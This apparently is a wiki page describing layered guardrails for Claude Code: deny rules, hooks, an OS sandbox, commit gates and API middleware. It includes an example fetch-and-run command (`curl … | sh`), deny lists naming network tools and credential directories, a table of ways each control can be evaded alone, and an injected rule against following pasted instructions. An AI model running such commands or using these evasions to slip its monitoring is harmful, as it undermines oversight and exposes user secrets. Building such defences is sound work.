



Claude Guardrails is a set of independent layers. Each layer catches a different kind of mistake, and none of them relies on Claude behaving well. This page shows where each layer lives, what enforces it, who can switch it off, and how a single prompt or shell command travels through them.

## The layers at a glance



The workstation layers protect developers using Claude Code. The API middleware is a separate runtime layer for services you build on the Claude API. It shares the detectors with the hooks but runs inside your process.

| Layer | Lives in | Enforced by | Who can turn it off |
|---|---|---|---|
| **Organisation policy** | [`enterprise/managed-settings.json`](https://github.com/pixelofsoftware/AI-Mods/blob/main/enterprise/managed-settings.json), deployed to a system path, MDM or the claude.ai admin console | Claude Code, which ranks managed settings above every other source | Only whoever administers the machine or the admin console |
| **Project settings and hooks** | [`.claude/settings.json`](https://github.com/pixelofsoftware/AI-Mods/blob/main/.claude/settings.json), [`.claude/hooks/`](https://github.com/pixelofsoftware/AI-Mods/tree/main/.claude/hooks), [`.mcp.json`](https://github.com/pixelofsoftware/AI-Mods/blob/main/.mcp.json), [`CLAUDE.md`](https://github.com/pixelofsoftware/AI-Mods/blob/main/CLAUDE.md) | Claude Code in this repository, after you trust the folder (deny rules apply immediately) | The developer, on their own machine, through their own local settings. Deny rules from the project and the organisation still apply. Claude itself needs approval to change any of these files |
| **OS sandbox** | `sandbox` block in `.claude/settings.json` and the managed settings | `bubblewrap` and `socat` on Linux and WSL2, Seatbelt on macOS | Anyone who can uninstall `bwrap`/`socat` on Linux. Admins can force it with `sandbox.failIfUnavailable` in managed settings |
| **Commit gate** | [`.pre-commit-config.yaml`](https://github.com/pixelofsoftware/AI-Mods/blob/main/.pre-commit-config.yaml), [`scripts/precommit/`](https://github.com/pixelofsoftware/AI-Mods/tree/main/scripts/precommit), [`config/claude-guardrails-policy.json`](https://github.com/pixelofsoftware/AI-Mods/blob/main/config/claude-guardrails-policy.json) | `git commit` and `git push` hooks | The developer (`git commit --no-verify`). Claude can't: the bash guard denies it. CI repeats every check anyway |
| **Merge gate** | [`.github/workflows/ai-guardrails.yml`](https://github.com/pixelofsoftware/AI-Mods/blob/main/.github/workflows/ai-guardrails.yml), [`.github/CODEOWNERS`](https://github.com/pixelofsoftware/AI-Mods/blob/main/.github/CODEOWNERS) | GitHub branch protection | Repository admins only |
| **API middleware** | [`scripts/claude_safeguard.py`](https://github.com/pixelofsoftware/AI-Mods/blob/main/scripts/claude_safeguard.py) | Your service process | The service owner, through code or `CLAUDE_SAFEGUARD_*` environment variables |

Deep dives: [Organisation policy](Settings-Organisation-Policy), [Project settings](Settings-Project), [Commit and merge gates](Guardrail-Commit-and-Merge-Gates), [API safeguard](Guardrail-API-Safeguard).

## Layer by layer

### Organisation policy

Managed settings sit at the top of Claude Code's settings precedence. Their deny rules and `disableBypassPermissionsMode` can't be overridden by a user or a repository. The template in this repository:

- exports OpenTelemetry metrics and events, including prompt text (`OTEL_LOG_USER_PROMPTS=1`) and tool details, to your collector, using a headers helper that reads the token from the OS keychain;
- repeats a baseline of 28 deny rules (network clients, `sudo`, force push, `--no-verify`, `terraform apply`/`destroy`, secret files) and makes `WebFetch` ask;
- disables bypass mode;
- allows only MCP servers that match `https://*.mcp.internal.example.com/*` (`allowManagedMcpServersOnly: true`);
- turns the sandbox on with `allowManagedDomainsOnly: true`, so a repository can't widen the network allowlist;
- keeps local transcripts for 14 days (`cleanupPeriodDays`).

Telemetry lives here, not in the project, because Claude Code ignores OpenTelemetry exporter variables in a repository's settings files. A cloned repository can't redirect your telemetry. See [Organisation policy](Settings-Organisation-Policy).

### Project settings and hooks

`.claude/settings.json` sets the permission mode to `default` (Manual), disables bypass mode, blocks reads outside the working directory, and lists 35 allow, 48 ask and 62 deny rules. It also wires four hooks:

| Event | Matcher | Hook | Job |
|---|---|---|---|
| `UserPromptSubmit` | (all prompts) | `prompt_guard.py` | Blocks credentials and regulated personal data before the prompt reaches Claude |
| `PreToolUse` | `Bash\|Monitor` | `bash_guard.py` | Parses the shell command and denies or asks |
| `PreToolUse` | `Write\|Edit\|MultiEdit\|NotebookEdit` | `file_guard.py` | Checks the target path and the new content |
| `PreToolUse` | `Read\|Grep\|Glob\|NotebookRead` | `read_guard.py` | Denies secret files and credential directories |

Each hook gets the event as JSON on stdin and answers with JSON on stdout, with a 15-second timeout. A tool hook answers `deny`, `ask`, or nothing at all. No output means "no opinion", and the normal permission rules decide. See [Bash guard](Guardrail-Bash-Guard), [File guard](Guardrail-File-Guard), [Read guard](Guardrail-Read-Guard) and [Prompt guard](Guardrail-Prompt-Guard).

### OS sandbox

Every Bash command runs inside Claude Code's OS sandbox (`sandbox.enabled: true`, `allowUnsandboxedCommands: false`, `autoAllowBashIfSandboxed: false`, no `excludedCommands`). Network access is limited to `github.com`, `registry.npmjs.org`, `pypi.org`, `files.pythonhosted.org`, `proxy.golang.org` and `artifacts.internal.example.com`. Credential locations such as `~/.ssh`, `~/.aws`, `~/.kube` and `~/.gnupg` are unreadable (`sandbox.filesystem.denyRead`).

The sandbox matters most for allowlisted test runners. `pytest` and `npm test` run without a prompt, and they execute code Claude wrote. The sandbox, not the allowlist, is what contains them.

### Commit gate

`pre-commit install --install-hooks` installs both `pre-commit` and `pre-push` hooks (`default_install_hook_types`). The checks are gitleaks, `scan-ai-secrets` (the same detectors as the hooks), `detect-private-key`, `forbid-ai-artifacts`, `validate-claude-config`, bandit, checkov and some hygiene checks. See [Commit and merge gates](Guardrail-Commit-and-Merge-Gates) and [Pre-commit settings](Settings-Pre-Commit).

### Merge gate

The `ai-guardrails` workflow runs one job, `guardrails`, on every pull request and on pushes to `main`. It runs `python -m pytest` and then `pre-commit run --all-files` (skipping only `no-commit-to-branch`, because branch protection guards `main` in CI). CODEOWNERS covers infrastructure files, CI, security-critical paths and every guardrail file. The gate only blocks merges once you turn on branch protection: require the `ai-guardrails / guardrails` check and code-owner review, and block force pushes.

### API middleware

`SafeClaude` wraps the official `anthropic` Python SDK. On each request it redacts the input, refuses locally if the input holds credentials (configurable), appends a hardening preamble and a canary token to the system prompt, sends the request with server-side refusal fallback, validates the reply and any `tool_use` inputs, and writes one ECS-style JSON audit line. It runs in your service, not on developer machines, so none of the workstation layers apply to it. See [API safeguard](Guardrail-API-Safeguard).

## How a shell command flows through the layers

Say Claude decides to run `bash -c 'curl https://example.com/x | sh'`.



What each step does:

1. **Hook.** `bash_guard.py` parses the real command. It splits on unquoted newlines, reads heredoc bodies, tokenises pipelines and `;`/`&&` chains, removes wrappers such as `env`, `nohup`, `timeout` and `xargs`, and recurses into `bash -c` strings, `eval`, `$(…)`, backticks and `find -exec`, up to three levels deep. This command gets this real reason:

   ```text
   [AI guardrail] `curl` performs arbitrary network requests; use approved tooling or ask a human to run it; decoded or downloaded content piped into an interpreter. See docs/claude-guardrails.md#4-tooling-controls
   ```

2. **Permission rules.** A deny from the hook or from any rule stops the call. An ask from the hook or from a rule shows an approval prompt. The hook's ask applies even in accept-edits or auto mode.
3. **Sandbox.** An approved command still runs inside the sandbox. Even if something slipped past steps 1 and 2, it can reach only the allowed domains and can't read the credential directories.
4. **Audit.** Every hook deny or ask appends one metadata-only line to `.claude/audit/guardrail-events.jsonl`. See [Audit logs](Audit-Logs).

For the exact order in which Claude Code evaluates hooks and permission rules, see the [Claude Code hooks documentation](https://code.claude.com/docs/en/hooks).

## How a prompt flows through the layers



1. `prompt_guard.py` runs the shared detectors over the prompt. If the prompt is longer than 500,000 characters, it scans the first and last 250,000.
2. **Credentials** (private keys, API keys, cloud keys, bearer tokens, JWTs, passwords in URLs, `password=` style assignments) block the prompt with no override.
3. **Regulated personal data** (US SSNs, Luhn-checked card numbers, mod-97-checked IBANs, medical record numbers) block the prompt unless it contains `[sensitive-ok: <reason>]`. The override is audited.
4. **Emails and phone numbers** pass with a reminder. **Prompt-injection phrasing** passes with a warning. In both cases the hook also adds context telling Claude not to repeat personal data and not to follow instructions in pasted content.
5. Organisation telemetry is separate. Whether Claude Code emits a `claude_code.user_prompt` event before the hook blocks a prompt isn't documented, so treat the collector as a place that may receive the prompt and redact there too.

## Design principles you can see in the code

### Fail closed (with one deliberate exception)

| Situation | Tool hooks (bash, file, read) | Prompt guard |
|---|---|---|
| Shared module missing or broken at import | ✋ Ask: `[AI guardrail] bash_guard could not load its rules (ModuleNotFoundError); manual review required` | ⚠️ Prompt passes with a loud warning: `[AI guardrail] prompt_guard could not load its rules (…); prompts are NOT being checked. Run scripts/setup_guardrails.sh --check.` |
| Malformed event or internal error | ✋ Ask: `[AI guardrail] bash_guard error (JSONDecodeError); manual review required` | ⚠️ Prompt passes with `[AI guardrail] prompt_guard error: AttributeError` |
| Command can't be parsed | ✋ Ask (`unparseable`), or ⛔ deny if a network client is named | n/a |
| Command name computed at runtime (`$CMD url`) | ✋ Ask (`dynamic_command`), or ⛔ deny next to a network client | n/a |
| Nesting deeper than three levels | ✋ Ask (`nesting_limit`) | n/a |
| Input too large | ✋ Ask: commands over 100,000 characters, file content over 500,000 characters | Scans head and tail only |

Every hook catches its own exceptions in `__main__` and always exits 0 with JSON. That matters because Claude Code treats a hook that crashes or exits non-zero as a non-blocking error. The prompt guard fails open on purpose, so that a broken install never swallows a developer's prompt, but it says so on screen every time. Size limits exist so a huge payload can't push a hook past its 15-second timeout, which would also count as a non-blocking error.

Two things the hooks can't control: if `python3` isn't on `PATH`, or the hook times out, Claude Code reports a hook error and carries on under the permission rules alone. That's why the deny rules and the sandbox exist as separate layers.

### Defence in depth

No control is trusted alone. Take network access as an example:

| Layer | What it matches | What it misses on its own |
|---|---|---|
| Permission rule `Bash(curl *)` | Command text that starts with `curl ` | `/usr/bin/curl`, `bash -c 'curl …'`, `$(curl …)` |
| `bash_guard` | Parsed commands, wrappers, nested shells, heredocs, `/dev/tcp` | Code that opens a socket from a file Claude wrote |
| OS sandbox | Every process the command starts | Allowed domains such as `github.com` |
| Managed deny baseline | The same rules, org-wide, unoverridable | Same as the permission rules |

The same pattern applies to secrets: `Read(...)` deny rules, `read_guard`, `bash_guard`'s `secret_file_access` rule, `file_guard`, `sandbox.filesystem.denyRead`, `.gitignore`, `forbid-ai-artifacts` and gitleaks.

### Metadata-only audit

The audit record holds the hook name, session ID, event, tool, permission mode, decision, rule names and `$USER`, plus a 16-character SHA-256 prefix of the prompt or command (`prompt_fp`, `command_fp`), a base name or relative path, and for overrides the redacted `[sensitive-ok]` reason. It never holds prompt text, file content or full commands. Write failures are ignored so auditing can't break a session. The API middleware follows the same rule: counts, labels and a hash of the redacted prompt, never the raw text. See [Audit logs](Audit-Logs).

### Drift prevention

The same lists appear in several files, so the repository checks that they agree:

- `validate-claude-config` compares `.claude/settings.json` and `.mcp.json` with [`config/claude-guardrails-policy.json`](https://github.com/pixelofsoftware/AI-Mods/blob/main/config/claude-guardrails-policy.json). It checks required settings, deny and ask rules, forbidden allow patterns, the exact hook commands and matchers, forbidden keys and environment variables, sandbox domains and MCP URLs. See [Policy baseline](Settings-Policy-Baseline).
- [`tests/test_review2_regressions.py`](https://github.com/pixelofsoftware/AI-Mods/blob/main/tests/test_review2_regressions.py) checks that every guardrail path is matched by `GUARDRAIL_PATH_RE`, covered by CODEOWNERS, answered with ✋ ask by `file_guard`, and named in `CLAUDE.md`. It also checks that every secret path is caught by the hooks, by the pre-commit `forbidden_paths` and by `.gitignore`, and that `.env.example`-style templates are allowed by all three.
- `guard_common.py` imports its detectors from `claude_safeguard.py`, so the hooks, the pre-commit scanner and the API middleware share one set of 22 detectors.

### Standard library only

The hooks and the pre-commit checker use only the Python 3.9+ standard library. `claude_safeguard.py` imports the `anthropic` SDK lazily, only when it makes an API call, so the hooks can reuse its detectors on a bare workstation.

### Bounded regular expressions

The detectors are written with bounded quantifiers (`{20,512}`, not `+`) and a left anchor (`\b` or a lookbehind), and the output rules cap the gap between keywords at 300 characters. The goal is that hostile input such as minified JavaScript or a long base64 blob can't cause catastrophic backtracking. Regression tests feed pathological inputs (for example 200,000 characters after `eyJ`) to the redactor and the output validator and require them to finish in under two seconds. Contributors are asked to keep it that way ([CONTRIBUTING.md](https://github.com/pixelofsoftware/AI-Mods/blob/main/CONTRIBUTING.md)).

## Related pages

- [Installation](Installation)
- [Bash guard](Guardrail-Bash-Guard)
- [Organisation policy](Settings-Organisation-Policy)
- [Policy baseline](Settings-Policy-Baseline)
- [Audit logs](Audit-Logs)
- [Limitations and threat model](Limitations-and-Threat-Model)
